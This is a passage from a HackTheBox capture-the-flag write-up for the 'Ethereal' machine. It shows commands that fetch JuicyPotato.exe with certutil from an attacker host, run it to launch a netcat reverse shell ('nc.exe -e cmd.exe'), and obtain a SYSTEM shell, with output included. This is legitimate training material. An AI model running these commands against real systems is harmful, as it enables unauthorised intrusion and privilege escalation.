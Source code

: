 I used Juicy Potato from Decoder.

```
c:\windows\system32\inetsrv>cd \users\public 
cd \users\public

c:\Users\Public>cmd /c certutil.exe -urlcache -split -f http://10.10.14.23:73/JuicyPotato.exe JuicyPotato.exe

10/10/2018  02:40 AM    <DIR>          .
10/10/2018  02:40 AM    <DIR>          ..
06/25/2018  03:51 PM    <DIR>          Documents
07/03/2018  10:25 PM    <DIR>          Downloads
10/10/2018  02:40 AM           347,648 JuicyPotato.exe
07/16/2016  02:23 PM    <DIR>          Music
07/16/2016  02:23 PM    <DIR>          Pictures
07/16/2016  02:23 PM    <DIR>          Videos
```

Execute it, spawning yet another netcat:

```
c:\Users\Public>JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 73" -t *
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\shortcuts\nc.exe -e cmd.exe 10.10.14.23 73" -t *                                                                                
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```

We got a shell as `nt authority\system`!

```
root@darkisland:~/hackthebox/Machines/Ethereal# nc -lvnp 73
listening on [any] 73 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.106] 49877
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Strange... we don't have read access to the flags even though we are SYSTEM:
